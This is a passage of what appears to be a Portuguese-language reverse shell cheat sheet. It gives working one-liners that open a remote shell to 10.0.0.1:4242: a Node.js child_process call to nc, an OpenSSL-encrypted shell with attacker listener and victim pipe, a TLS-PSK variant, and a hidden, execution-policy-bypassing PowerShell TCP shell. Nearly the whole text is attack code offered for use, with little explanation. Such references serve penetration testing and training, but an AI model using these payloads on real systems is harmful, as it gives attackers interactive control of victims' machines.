 Ou

```sh
require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')
```

Ou

```sh
-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')
```

Ou

```
https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```

## OpenSSL

Atacante:
```sh
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242
```

Vítima
```sh
user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

TLS-PSK

```sh
# generate 384-bit PSK
# use the generated string as a value for the two PSK variables from below
openssl rand -hex 48 
# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```

## PowerShell

Método 1

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
